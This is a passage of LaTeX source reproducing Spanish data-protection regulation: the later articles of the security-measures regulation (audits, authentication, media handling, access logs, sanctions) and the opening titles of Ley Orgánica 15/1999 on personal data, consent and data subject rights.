{\bf 2.} El informe de auditor\'{\i}a deber\'a dictaminar sobre la adecuaci\'on 
de las medidas y controles al presente Reglamento, identificar sus deficiencias 
y proponer las medidas correctoras o complementarias necesarias. Deber\'a, 
igualmente, incluir los datos, hechos y observaciones en que se basen los 
dict\'amenes alcanzados y recomendaciones propuestas.\\

{\bf 3.} Los informes de auditor\'{\i}a ser\'an analizados por el responsable 
de seguridad competente, que elevar\'a las conclusiones al responsable del 
fichero para que adopte las medidas correctoras adecuadas y quedar\'an a 
disposici\'on de la Agencia de Protecci\'on de Datos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 18.} Identificaci\'on y autenticaci\'on.}

{\bf 1.} El responsable del fichero establecer\'a un mecanismo que permita la 
identificaci\'on de forma inequ\'{\i}voca y personalizado de todo aquel usuario 
que intente acceder al sistema de informaci\'on y la verificaci\'on de que 
est\'a autorizado.\\

{\bf 2.} Se limitar\'a la posibilidad de intentar reiteradamente el acceso no 
autorizado al sistema de informaci\'on.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 19.} Control de acceso f\'{\i}sico.}

Exclusivamente el personal autorizado en el documento de seguridad podr\'a 
tener acceso a los locales donde se encuentren los sistemas de informaci\'on 
con datos de car\'acter personal.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 20.} Gesti\'on de soportes.}

{\bf 1.} Deber\'a establecerse un sistema de registro de entrada de soportes 
inform\'aticos que permita, directa o indirectamente, conocer el tipo de 
soporte, la fecha y hora, el emisor, el n\'umero de soportes, el tipo de 
informaci\'on que contienen, la forma de env\'{\i}o y la persona responsable 
de la recepci\'on que deber\'a estar debidamente autorizada.\\

{\bf 2.} Igualmente, se dispondr\'a de un sistema de registro de salida de 
soportes inform\'aticos que permita, directa o indirectamente, conocer el tipo 
de soporte, la fecha v hora, el destinatario, el n\'umero de soportes, el tipo 
de informaci\'on que contienen, la forma de env\'{\i}o y la persona responsable 
de la entrega que deber\'a estar debidamente autorizada.\\

{\bf 3.} Cuando un soporte vaya a ser desechado o reutilizado, se adoptar\'an 
las medidas necesarias para impedir cualquier recuperaci\'on posterior de la 
informaci\'on almacenada en \'el, previamente a que se proceda a su baja en el 
inventario.\\

{\bf 4.} Cuando los soportes vayan a salir fuera de los locales en que 
encuentren ubicados los ficheros como consecuencia de operaciones de 
mantenimiento, se adoptar\'an las medidas necesarias para impedir cualquier 
recuperaci\'on indebida de la informaci\'on almacenada en ellos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 21.} Registro de incidencias.}

{\bf 1.} En el registro regulado en el art\'{\i}culo 10 deber\'an consignarse,
adem\'as los procedimientos realizados de recuperaci\'on de los datos, 
indicando la persona que ejecut\'o el proceso, los datos restaurados y, en su
caso, qu\'e datos ha sido necesario grabar manualmente en el proceso de 
recuperaci\'on.\\

{\bf 2.} Ser\'a necesaria la autorizaci\'on por escrito del responsable del 
fichero para la ejecuci\'on de los procedimientos de recuperaci\'on de los 
datos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 22.} Pruebas con datos reales.}

Las pruebas anteriores a la implantaci\'on o modificaci\'on de los sistemas de 
informaci\'on que traten ficheros con datos de car\'acter personal no se 
realizar\'an con datos reales, salvo que se asegure el nivel de seguridad 
correspondiente al tipo de fichero tratado.
\begin{center}
{\LARGE CAP\'ITULO IV}\\ {\large Medidas de seguridad de nivel alto}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 23.} Distribuci\'on de soportes.}

La distribuci\'on de los soportes que contengan datos de car\'acter personal se 
realizar\'a cifrando dichos datos o bien utilizando cualquier otro mecanismo 
que garantice que dicha informaci\'on no sea inteligible ni manipulada durante 
su transporte.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 24.} Registro de accesos.}

{\bf 1.} De cada acceso se guardar\'an, como m\'{\i}nimo, la identificaci\'on 
del usuario, la fecha y hora en que se realiz\'o, el fichero accedido, el tipo 
de acceso y si ha sido autorizado o denegado.\\

{\bf 2.} En el caso de que el acceso haya sido autorizado, ser\'a preciso 
guardar la informaci\'on que permita identificar el registro accedido.\\

{\bf 3.} Los mecanismos que permiten el registro de los datos detallados en los 
p\'arrafos anteriores estar\'an bajo el control directo del responsable de 
seguridad sin que se deba permitir, en ning\'un caso, la desactivaci\'on de los 
mismos.\\

{\bf 4.} El periodo m\'{\i}nimo de conservaci\'on de los datos registrados 
ser\'a de dos a\~nos.\\

{\bf 5.} El responsable de seguridad competente se encargar\'a de revisar 
peri\'odicamente la informaci\'on de control registrada y elaborar\'a un 
informe de las revisiones realizadas y los problemas detectados al menos una 
vez al mes.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 25.} Copias de respaldo y recuperaci\'on.}

Deber\'a conservarse una copia de respaldo y de los procedimientos de 
recuperaci\'on de los datos en un lugar diferente de aqu\'el en que se 
encuentren los equipos inform\'aticos que los tratan cumpliendo en todo caso,
las medidas de seguridad exigidas en este Reglamento.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 26.} Telecomunicaciones.}

La transmisi\'on de datos de car\'acter personal a trav\'es de redes de 
telecomunicaciones se realizar\'a cifrando dichos datos o bien utilizando 
cualquier otro mecanismo que garantice que la informaci\'on no sea inteligible 
ni manipulada por terceros.
\begin{center}
{\LARGE CAP\'ITULO V}\\ {\large Infracciones y sanciones}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 27.} Infracciones y sanciones.}

{\bf 1.} El incumplimiento de las medidas de seguridad descritas en el presente 
Reglamento ser\'a sancionado de acuerdo con lo establecido en los 
art\'{\i}culos 43 y 44 de la Ley Org\'anica 5/1992, cuando se trate de ficheros 
de titularidad privada.\\
El procedimiento a seguir para la imposici\'on de la sanci\'on a la que se 
refiere el p\'arrafo anterior ser\'a el establecido en el Real Decreto 
1332/1994, de 20 de junio, por el que se desarrollan determinados aspectos de 
la Ley Org\'anica 5/1992, de 29 de octubre, de Regulaci\'on del Tratamiento 
Automatizado de los Datos de Car\'acter Personal.\\

{\bf 2.} Cuando se trate de ficheros de los que sean responsables las 
Administraciones P\'ublicas se estar\'a, en cuanto al procedimiento y a las 
sanciones, a lo dispuesto en el art\'{\i}culo 45 de la Ley Org\'anica 5/1992.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 28.} Responsables.}

Los responsables del fichero, sujetos al r\'egimen sancionador de la Ley 
Org\'anica 5/1992, deber\'an adoptar las medidas de \'{\i}ndole t\'ecnica y
organizativas necesarias que garanticen la seguridad de los datos de car\'acter 
personal en los t\'erminos establecidos en el presente Reglamento.
\begin{center}
{\LARGE CAP\'ITULO VI}\\ {\large Competencias del Director de la Agencia de
Protecci\'on de Datos}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 29.} Competencias del Director de la Agencia de 
Protecci\'on de Datos.}

El Director de la Agencia de Protecci\'on de Datos podr\'a, de conformidad con 
lo establecido en el art\'{\i}culo 36 de la Ley Org\'anica 5/1992:
\begin{itemize}
\item[1.-] Dictar, en su caso y sin perjuicio de las competencias de otros 
\'organos, las instrucciones precisas para adecuar los tratamientos 
automatizados a los principios de la Ley Org\'anica 5/1992.
\item[2.-] Ordenar la cesaci\'on de los tratamientos de datos de car\'acter 
personal y la cancelaci\'on de los ficheros cuando no se cumplan las medidas de 
seguridad previstas en el presente Reglamento.
\end{itemize}
\vspace{0.3cm}
{\large {\bf Disposici\'on transitoria \'unica.} Plazos de implantaci\'on de las
medidas.}

En el caso de sistemas de informaci\'on que se encuentren en funcionamiento a 
la entrada en vigor del presente Reglamento, las medidas de seguridad de nivel 
b\'asico previstas en el presente Reglamento deber\'an implantarse en el plazo 
de seis meses desde su entrada en vigor, las de nivel medio en el plazo de un 
a\~no y las de nivel alto en el plazo de dos a\~nos.\\
\\Cuando los sistemas de informaci\'on que se encuentren en funcionamiento no 
permitan tecnol\'ogicamente la implantaci\'on de alguna de las medidas de 
seguridad previstas en el presente Reglamento, la adecuaci\'on de dichos 
sistemas y la implantaci\'on de las medidas de seguridad deber\'an realizarse 
en el plazo m\'aximo de tres a\~nos a contar desde la entrada en vigor del 
presente Reglamento.
\cleardoublepage
\section{Ley Org\'anica de Protecci\'on de Datos}\footnotetext{Ley Org\'anica 
15/1999, de 13 de diciembre, de Protecci\'on de Datos de Car\'acter Personal.}
\begin{center}
{\LARGE T\'ITULO I}\\
{\large Disposiciones generales}
\end{center}
{\large {\bf Art\'{\i}culo 1.} Objeto.}

La presente Ley Org\'anica tiene por objeto garantizar y proteger, en lo que 
concierne al tratamiento de los datos personales, las libertades p\'ublicas y 
los derechos fundamentales de las personas f\'{\i}sicas, y especialmente de su 
honor e intimidad personal y familiar.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 2.} \'Ambito de aplicaci\'on.}

{\bf 1.} La presente Ley Org\'anica ser\'a de aplicaci\'on a los datos de 
car\'acter personal registrados en soporte f\'{\i}sico que los haga 
susceptibles de tratamiento, y a toda modalidad de uso posterior de estos datos 
por los sectores p\'ublico y privado.\\
Se regir\'a por la presente Ley Org\'anica todo tratamiento de datos de 
car\'acter personal:
~\par
\begin{itemize}
\item[(a)] Cuando el tratamiento sea efectuado en territorio espa\~nol 
 en el marco de las actividades de un establecimiento del responsable del 
 tratamiento.
\item[(b)] Cuando al responsable del tratamiento no establecido en territorio 
espa\~nol, le sea de aplicaci\'on la legislaci\'on espa\~nola en aplicaci\'on 
de normas de Derecho Internacional p\'ublico.
\item[(c)] Cuando el responsable del tratamiento no est\'e establecido en 
territorio de la Uni\'on Europea y utilice en el tratamiento de datos medios 
situados en territorio espa\~nol, salvo que tales medios se utilicen 
\'unicamente con fines de tr\'ansito.
\end{itemize}

{\bf 2.} El r\'egimen de protecci\'on de los datos de car\'acter personal que 
se establece en la presente Ley Org\'anica no ser\'a de aplicaci\'on:
\begin{itemize}
\item [(a)] A los ficheros mantenidos por personas f\'{\i}sicas en el ejercicio 
de actividades exclusivamente personales o dom\'esticas.
\item [(b)] A los ficheros sometidos a la normativa sobre protecci\'on de 
 materias clasificadas.
\item [(c)] A los ficheros establecidos para la investigaci\'on del terrorismo 
y de formas graves de delincuencia organizada. No obstante, en estos supuestos 
el responsable del fichero comunicar\'a previamente la existencia del mismo,
sus caracter\'{\i}sticas generales y su finalidad a la Agencia de Protecci\'on 
de Datos.
\end{itemize}

{\bf 3.} Se regir\'an por sus disposiciones espec\'{\i}ficas, y por lo 
especialmente previsto, en su caso, por esta Ley Org\'anica los siguientes 
tratamientos de datos personales:
\begin{itemize}
\item [(a)] Los ficheros regulados por la legislaci\'on de r\'egimen electoral.
\item [(b)] Los que sirvan a fines exclusivamente estad\'{\i}sticos, y est\'en 
amparados por la legislaci\'on estatal o auton\'omica sobre la funci\'on 
estad\'{\i}stica p\'ublica.
\item [(c)] Los que tengan por objeto el almacenamiento de los datos contenidos 
en los informes personales de calificaci\'on a que se refiere la legislaci\'on 
del R\'egimen del personal de las Fuerzas Armadas.
\item [(d)] Los derivados del Registro Civil y del Registro Central de penados 
y rebeldes.
\item [(e)] Los procedentes de im\'agenes y sonidos obtenidos mediante la 
utilizaci\'on de videoc\'amaras por las Fuerzas y Cuerpos de Seguridad,
de conformidad con la legislaci\'on sobre la materia.
\end{itemize}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 3.} Definiciones.}

A los efectos de la presente Ley Org\'anica se entender\'a por:
\begin{itemize}
\item [(a)] Datos de car\'acter personal: Cualquier informaci\'on concerniente 
a personas f\'{\i}sicas identificadas o identificables.
\item [(b)] Fichero: Todo conjunto organizado de datos de car\'acter personal,
cualquiera que fuere la forma o modalidad de su creaci\'on, almacenamiento,
organizaci\'on y acceso.
\item [(c)] Tratamiento de datos: Operaciones y procedimientos t\'ecnicos de 
car\'acter automatizado o no, que permitan la recogida, grabaci\'on, 
conservaci\'on, elaboraci\'on, modificaci\'on, bloqueo y cancelaci\'on, as\'{\i}
como las cesiones de datos que resulten de comunicaciones, consultas, 
interconexiones y transferencias.
\item [(d)] Responsable del fichero o tratamiento: Persona f\'{\i}sica o 
jur\'{\i}dica, de naturaleza p\'ublica o privada, u \'organo administrativo,
que decida sobre la finalidad, contenido y uso del tratamiento.
\item [(e)] Afectado o interesado: Persona f\'{\i}sica titular de los datos 
que sean objeto del tratamiento a que se refiere el apartado c) del presente 
art\'{\i}culo.
\item [(f)] Procedimiento de disociaci\'on: Todo tratamiento de datos 
personales de modo que la informaci\'on que se obtenga no pueda asociarse a 
persona identificada o identificable.
\item [(g)] Encargado del tratamiento: La persona f\'{\i}sica o jur\'{\i}dica,
autoridad p\'ublica, servicio o cualquier otro organismo que, solo o 
conjuntamente con otros, trate datos personales por cuenta del responsable del 
tratamiento.
\item [(h)] Consentimiento del interesado: Toda manifestaci\'on de voluntad, 
libre, inequ\'{\i}voca, espec\'{\i}fica e informada, mediante la que el 
interesado consienta el tratamiento de datos personales que le conciernen.
\item [(i)] Cesi\'on o comunicaci\'on de datos: Toda revelaci\'on de datos 
realizada a una persona distinta del interesado.
\item [(j)] Fuentes accesibles al p\'ublico: Aquellos ficheros cuya consulta 
puede ser realizada por cualquier persona, no impedida por una norma limitativa,
o sin m\'as exigencia que, en su caso, el abono de una contraprestaci\'on. 
Tienen la consideraci\'on de fuentes de acceso p\'ublico, exclusivamente, el 
censo promocional, los repertorios telef\'onicos en los t\'erminos previstos 
por su normativa espec\'{\i}fica y las listas de personas pertenecientes a 
grupos de profesionales que contengan \'unicamente los datos de nombre, 
t\'{\i}tulo, profesi\'on, actividad, grado acad\'emico, direcci\'on e 
indicaci\'on de su pertenencia al grupo. Asimismo, tienen el car\'acter de 
fuentes de acceso p\'ublico, los Diarios y Boletines oficiales y los medios de 
comunicaci\'on.
\end{itemize}
\begin{center}
{\LARGE T\'ITULO II}\\
{\large Principios de la protecci\'on de datos}
\end{center} 
{\large {\bf Art\'{\i}culo 4.} Calidad de los datos.}

{\bf 1.} Los datos de car\'acter personal s\'olo se podr\'an recoger para su 
tratamiento, as\'{\i} como someterlos a dicho tratamiento, cuando sean 
adecuados, pertinentes y no excesivos en relaci\'on con el \'ambito y las 
finalidades determinadas, expl\'{\i}citas y leg\'{\i}timas para las que se 
hayan obtenido.\\

{\bf 2.} Los datos de car\'acter personal objeto de tratamiento no podr\'an 
usarse para finalidades incompatibles con aquellas para las que los datos 
hubieran sido recogidos. No se considerar\'a incompatible el tratamiento 
posterior de \'estos con fines hist\'oricos, estad\'{\i}sticos o 
cient\'{\i}ficos.\\

{\bf 3.} Los datos de car\'acter personal ser\'an exactos y puestos al d\'{\i}a 
de forma que respondan con veracidad a la situaci\'on actual del afectado.\\

{\bf 4.} Si los datos de car\'acter personal registrados resultaran ser 
inexactos, en todo o en parte, o incompletos, ser\'an cancelados y sustituidos 
de oficio por los correspondientes datos rectificados o completados, sin 
perjuicio de las facultades que a los afectados reconoce el art\'{\i}culo 16.\\

{\bf 5.} Los datos de car\'acter personal ser\'an cancelados cuando hayan 
dejado de ser necesarios o pertinentes para la finalidad para la cual hubieran 
sido recabados o registrados.\\
No ser\'an conservados en forma que permita la identificaci\'on del interesado 
durante un per\'{\i}odo superior al necesario para los fines en base a los 
cuales hubieran sido recabados o registrados.\\
Reglamentariamente se determinar\'a el procedimiento por el que, por 
excepci\'on, atendidos los valores hist\'oricos, estad\'{\i}sticos o 
cient\'{\i}ficos de acuerdo con la legislaci\'on espec\'{\i}fica, se decida el 
mantenimiento \'{\i}ntegro de determinados datos.\\

{\bf 6.} Los datos de car\'acter personal ser\'an almacenados de forma que 
permitan el ejercicio del derecho de acceso, salvo que sean legalmente 
cancelados.\\

{\bf 7.} Se proh\'{\i}be la recogida de datos por medios fraudulentos, 
desleales o il\'{\i}citos.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 5.} Derecho de informaci\'on en la recogida de 
datos.}

{\bf 1.} Los interesados a los que se soliciten datos personales deber\'an ser 
previamente informados de modo expreso, preciso e inequ\'{\i}voco:
\begin{itemize}
\item [(a)] De la existencia de un fichero o tratamiento de datos de car\'acter 
personal, de la finalidad de la recogida de \'estos y de los destinatarios de 
la informaci\'on.
\item [(b)] Del car\'acter obligatorio o facultativo de su respuesta a las 
preguntas que les sean planteadas.
\item [(c)] De las consecuencias de la obtenci\'on de los datos o de la 
negativa a suministrarlos.
\item [(d)] De la posibilidad de ejercitar los derechos de acceso, 
rectificaci\'on, cancelaci\'on y oposici\'on.
\item [(e)] De la identidad y direcci\'on del responsable del tratamiento o,
en su caso, de su representante.
\end{itemize}
Cuando el responsable del tratamiento no est\'e establecido en el territorio de 
la Uni\'on Europea y utilice en el tratamiento de datos medios situados en 
territorio espa\~nol, deber\'a designar, salvo que tales medios se utilicen con 
fines de tr\'ansito, un representante en Espa\~na, sin perjuicio de las 
acciones que pudieran emprenderse contra el propio responsable del 
tratamiento.\\

{\bf 2.} Cuando se utilicen cuestionarios u otros impresos para la recogida,
figurar\'an en los mismos, en forma claramente legible, las advertencias a que 
se refiere el apartado anterior.\\

{\bf 3.} No ser\'a necesaria la informaci\'on a que se refieren las letras b),
c) y d) del apartado 1 si el contenido de ella se deduce claramente de la 
naturaleza de los datos personales que se solicitan o de las circunstancias en 
que se recaban.\\

{\bf 4.} Cuando los datos de car\'acter personal no hayan sido recabados del 
interesado, \'este deber\'a ser informado de forma expresa, precisa e 
inequ\'{\i}voca, por el responsable del fichero o su representante, dentro de 
los tres meses siguientes al momento del registro de los datos, salvo que ya 
hubiera sido informado con anterioridad, del contenido del tratamiento, de la 
procedencia de los datos, as\'{\i} como de lo previsto en las letras a), d) y 
e) del apartado 1 del presente art\'{\i}culo.\\

{\bf 5.} No ser\'a de aplicaci\'on lo dispuesto en el apartado anterior cuando 
expresamente una Ley lo prevea, cuando el tratamiento tenga fines hist\'oricos,
estad\'{\i}sticos o cient\'{\i}ficos, o cuando la informaci\'on al interesado 
resulte imposible o exija esfuerzos desproporcionados, a criterio de la Agencia 
de Protecci\'on de Datos o del organismo auton\'omico equivalente, en 
consideraci\'on al n\'umero de interesados, a la antig\"uedad de los datos y a 
las posibles medidas compensatorias.\\
Asimismo, tampoco regir\'a lo dispuesto en el apartado anterior cuando los 
datos procedan de fuentes accesibles al p\'ublico y se destinen a la actividad 
de publicidad o prospecci\'on comercial, en cuyo caso, en cada comunicaci\'on 
que se dirija al interesado se le informar\'a del origen de los datos y de la 
identidad del responsable del tratamiento as\'{\i} como de los derechos que le 
asisten.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 6.} Consentimiento del afectado.}

{\bf 1.} El tratamiento de los datos de car\'acter personal requerir\'a el 
consentimiento inequ\'{\i}voco del afectado, salvo que la Ley disponga otra 
cosa.\\

{\bf 2.} No ser\'a preciso el consentimiento cuando los datos de car\'acter 
personal se recojan para el ejercicio de las funciones propias de las 
Administraciones P\'ublicas en el \'ambito de sus competencias; cuando se 
refieran a las partes de un contrato o precontrato de una relaci\'on negocial,
laboral o administrativa y sean necesarios para su mantenimiento o 
cumplimiento; cuando el tratamiento de los datos tenga por finalidad proteger 
un inter\'es vital del interesado en los t\'erminos del art\'{\i}culo 7, 
apartado 6 de la presente Ley, o cuando los datos figuren en fuentes accesibles 
al p\'ublico y su tratamiento sea necesario para la satisfacci\'on del 
inter\'es leg\'{\i}timo perseguido por el responsable del fichero o por el del 
tercero a quien se comuniquen los datos, siempre que no se vulneren los 
derechos y libertades fundamentales del interesado.\\

{\bf 3.} El consentimiento a que se refiere el art\'{\i}culo podr\'a ser 
revocado cuando exista causa justificada para ello y no se le atribuyan efectos 
retroactivos.\\

{\bf 4.} En los casos en los que no sea necesario el consentimiento del 
afectado para el tratamiento de los datos de car\'acter personal, y siempre que 
una Ley no disponga lo contrario, \'este podr\'a oponerse a su tratamiento 
cuando existan motivos fundados y leg\'{\i}timos relativos a una concreta 
situaci\'on personal. En tal supuesto, el responsable del fichero excluir\'a 
del tratamiento los datos relativos al afectado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 7.} Datos especialmente protegidos.}

{\bf 1.} De acuerdo con lo establecido en el apartado 2 del art\'{\i}culo 16 de 
la Constituci\'on, nadie podr\'a ser obligado a declarar sobre su 
ideolog\'{\i}a, religi\'on o creencias.\\
Cuando en relaci\'on con estos datos se proceda a recabar el consentimiento a 
que se refiere el apartado siguiente, se advertir\'a al interesado acerca de su 
derecho a no prestarlo.\\

{\bf 2.} S\'olo con el consentimiento expreso y por escrito del afectado 
podr\'an ser objeto de tratamiento los datos de car\'acter personal que revelen 
la ideolog\'{\i}a, afiliaci\'on sindical, religi\'on y creencias. Se 
except\'uan los ficheros mantenidos por los partidos pol\'{\i}ticos,
sindicatos, iglesias, confesiones o comunidades religiosas y asociaciones,
fundaciones y otras entidades sin \'animo de lucro, cuya finalidad sea 
pol\'{\i}tica, filos\'ofica, religiosa o sindical, en cuanto a los datos 
relativos a sus asociados o miembros, sin perjuicio de que la cesi\'on de 
dichos datos precisar\'a siempre el previo consentimiento del afectado.\\

{\bf 3.} Los datos de car\'acter personal que hagan referencia al origen racial,
a la salud y a la vida sexual s\'olo podr\'an ser recabados, tratados y cedidos 
cuando, por razones de inter\'es general, as\'{\i} lo disponga una Ley o el 
afectado consienta expresamente.\\

{\bf 4.} Quedan prohibidos los ficheros creados con la finalidad exclusiva de 
almacenar datos de car\'acter personal que revelen la ideolog\'{\i}a, 
afiliaci\'on sindical, religi\'on, creencias, origen racial o \'etnico, o vida 
sexual.\\

{\bf 5.} Los datos de car\'acter personal relativos a la comisi\'on de 
infracciones penales o administrativas s\'olo podr\'an ser incluidos en 
ficheros de las Administraciones P\'ublicas competentes en los supuestos 
previstos en las respectivas normas reguladoras.\\

{\bf 6.} No obstante lo dispuesto en los apartados anteriores podr\'an ser 
objeto de tratamiento los datos de car\'acter personal a que se refieren los 
apartados 2 y 3 de este art\'{\i}culo, cuando dicho tratamiento resulte 
necesario para la prevenci\'on o para el diagn\'ostico m\'edicos, la 
prestaci\'on de asistencia sanitaria o tratamientos m\'edicos o la gesti\'on de 
servicios sanitarios, siempre que dicho tratamiento de datos se realice por un 
profesional sanitario sujeto al secreto profesional o por otra persona sujeta 
asimismo a una obligaci\'on equivalente de secreto.\\
Tambi\'en podr\'an ser objeto de tratamiento los datos a que se refiere el 
p\'arrafo anterior cuando el tratamiento sea necesario para salvaguardar el 
inter\'es vital del afectado o de otra persona, en el supuesto de que el 
afectado est\'e f\'{\i}sica o jur\'{\i}dicamente incapacitado para dar su 
consentimiento.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 8.} Datos relativos a la salud.}

Sin perjuicio de lo que se dispone en el art\'{\i}culo 11 respecto de la 
cesi\'on, las instituciones y los centros sanitarios p\'ublicos y privados y 
los profesionales correspondientes podr\'an proceder al tratamiento de los 
datos de car\'acter personal relativos a la salud de las personas que a ellos 
acudan o hayan de ser tratados en los mismos, de acuerdo con lo dispuesto en la 
legislaci\'on estatal o auton\'omica sobre sanidad.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 9.} Seguridad de los datos.}

{\bf 1.} El responsable del fichero, y, en su caso, el encargado del 
tratamiento, deber\'an adoptar las medidas de \'{\i}ndole t\'ecnica y 
organizativas necesarias que garanticen la seguridad de los datos de car\'acter 
personal y eviten su alteraci\'on, p\'erdida, tratamiento o acceso no
autorizado, habida cuenta del estado de la tecnolog\'{\i}a, la naturaleza de 
los datos almacenados y los riesgos a que est\'an expuestos, ya provengan de la 
acci\'on humana o del medio f\'{\i}sico o natural.\\

{\bf 2.} No se registrar\'an datos de car\'acter personal en ficheros que no 
re\'unan las condiciones que se determinen por v\'{\i}a reglamentaria con 
respecto a su integridad y seguridad y a las de los centros de tratamiento,
locales, equipos, sistemas y programas.\\

{\bf 3.} Reglamentariamente se establecer\'an los requisitos y condiciones que 
deban reunir los ficheros y las personas que intervengan en el tratamiento de 
los datos a que se refiere el art\'{\i}culo 7 de esta Ley.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 10.} Deber de secreto.}

El responsable del fichero y quienes intervengan en cualquier fase del 
tratamiento de los datos de car\'acter personal est\'an obligados al secreto 
profesional respecto de los mismos y al deber de guardarlos, obligaciones que 
subsistir\'an aun despu\'es de finalizar sus relaciones con el titular del 
fichero o, en su caso, con el responsable del mismo.\\
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 11.} Comunicaci\'on de datos.}

{\bf 1.} Los datos de car\'acter personal objeto del tratamiento s\'olo 
podr\'an ser comunicados a un tercero para el cumplimiento de fines 
directamente relacionados con las funciones leg\'{\i}timas del cedente y del 
cesionario con el previo consentimiento del interesado.\\

{\bf 2.} El consentimiento exigido en el apartado anterior no ser\'a preciso:
\begin{itemize}
\item [(a)] Cuando la cesi\'on est\'a autorizada en una Ley.
\item [(b)] Cuando se trate de datos recogidos de fuentes accesibles al 
p\'ublico.
\item [(c)] Cuando el tratamiento responda a la libre y leg\'{\i}tima 
aceptaci\'on de una relaci\'on jur\'{\i}dica cuyo desarrollo, cumplimiento y 
control implique necesariamente la conexi\'on de dicho tratamiento con ficheros 
de terceros. En este caso la comunicaci\'on s\'olo ser\'a leg\'{\i}tima en 
cuanto se limite a la finalidad que la justifique.
\item [(d)] Cuando la comunicaci\'on que deba efectuarse tenga por destinatario 
al Defensor del Pueblo, el Ministerio Fiscal o los Jueces o Tribunales o el 
Tribunal de Cuentas, en el ejercicio de las funciones que tiene atribuidas. 
Tampoco ser\'a preciso el consentimiento cuando la comunicaci\'on tenga como 
destinatario a instituciones auton\'omicas con funciones an\'alogas al Defensor 
del Pueblo o al Tribunal de Cuentas.
\item [(e)] Cuando la cesi\'on se produzca entre Administraciones P\'ublicas y 
tenga por objeto el tratamiento posterior de los datos con fines hist\'oricos,
estad\'{\i}sticos o cient\'{\i}ficos.
\item [(f)] Cuando la cesi\'on de datos de car\'acter personal relativos a la 
salud sea necesaria para solucionar una urgencia que requiera acceder a un 
fichero o para realizar los estudios epidemiol\'ogicos en los t\'erminos 
establecidos en la legislaci\'on sobre sanidad estatal o auton\'omica.
\end{itemize}

{\bf 3.} Ser\'a nulo el consentimiento para la comunicaci\'on de los datos de 
car\'acter personal a un tercero cuando la informaci\'on que se facilite al 
interesado no le permita conocer la finalidad a que destinar\'an los datos cuya 
comunicaci\'on se autoriza o el tipo de actividad de aqu\'el a quien se 
pretenden comunicar.\\

{\bf 4.} El consentimiento para la comunicaci\'on de los datos de car\'acter 
personal tiene tambi\'en un car\'acter de revocable.\\

{\bf 5.} Aqu\'el a quien se comuniquen los datos de car\'acter personal se 
obliga, por el solo hecho de la comunicaci\'on, a la observancia de las 
disposiciones de la presente Ley.\\

{\bf 6.} Si la comunicaci\'on se efect\'ua previo procedimiento de 
disociaci\'on, no ser\'a aplicable lo establecido en los apartados anteriores.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 12.} Acceso a los datos por cuenta de terceros.}

{\bf 1.} No se considerar\'a comunicaci\'on de datos el acceso de un tercero a 
los datos cuando dicho acceso sea necesario para la prestaci\'on de un servicio 
al responsable del tratamiento.\\

{\bf 2.} La realizaci\'on de tratamientos por cuenta de terceros deber\'a estar 
regulada en un contrato que deber\'a constar por escrito o en alguna otra forma 
que permita acreditar su celebraci\'on y contenido, estableci\'endose 
expresamente que el encargado del tratamiento \'unicamente tratar\'a los datos 
conforme a las instrucciones del responsable del tratamiento, que no los 
aplicar\'a o utilizar\'a con fin distinto al que figure en dicho contrato, ni 
los comunicar\'a, ni siquiera para su conservaci\'on, a otras personas.\\
En el contrato se estipular\'an, asimismo, las medidas de seguridad a que se 
refiere el art\'{\i}culo 9 de esta Ley que el encargado del tratamiento est\'a 
obligado a implementar.\\

{\bf 3.} Una vez cumplida la prestaci\'on contractual, los datos de car\'acter 
personal deber\'an ser destruidos o devueltos al responsable del tratamiento,
al igual que cualquier soporte o documentos en que conste alg\'un dato de 
car\'acter personal objeto del tratamiento.\\

{\bf 4.} En el caso de que el encargado del tratamiento destine los datos a 
otra finalidad, los comunique o los utilice incumpliendo las estipulaciones del 
contrato, ser\'a considerado, tambi\'en, responsable del tratamiento, 
respondiendo de las infracciones en que hubiera incurrido personalmente.\\
\begin{center}
{\LARGE T\'ITULO III}\\
{\large Derechos de las personas}
\end{center}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 13.} Impugnaci\'on de valoraciones.}

{\bf 1.} Los ciudadanos tienen derecho a no verse sometidos a una decisi\'on 
con efectos jur\'{\i}dicos, sobre ellos o que les afecte de manera 
significativa, que se base \'unicamente en un tratamiento de datos destinados a 
evaluar determinados aspectos de su personalidad.\\

{\bf 2.} El afectado podr\'a impugnar los actos administrativos o decisiones 
privadas que impliquen una valoraci\'on de su comportamiento, cuyo \'unico 
fundamento sea un tratamiento de datos de car\'acter personal que ofrezca una 
definici\'on de sus caracter\'{\i}sticas o personalidad.\\

{\bf 3.} En este caso, el afectado tendr\'a derecho a obtener informaci\'on del 
responsable del fichero sobre los criterios de valoraci\'on y el programa 
utilizados en el tratamiento que sirvi\'o para adoptar la decisi\'on en que 
consisti\'o el acto.\\

{\bf 4.} La valoraci\'on sobre el comportamiento de los ciudadanos basada en un 
tratamiento de datos, \'unicamente podr\'a tener valor probatorio a petici\'on 
del afectado.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 14.} Derecho de Consulta al Registro General de 
Protecci\'on de Datos.}

Cualquier persona podr\'a conocer, recabando a tal fin la informaci\'on 
oportuna del Registro General de Protecci\'on de Datos, la existencia de 
tratamientos de datos de car\'acter personal, sus finalidades y la identidad 
del responsable del tratamiento. El Registro General ser\'a de consulta 
p\'ublica y gratuita.
\vspace{0.3cm}\\
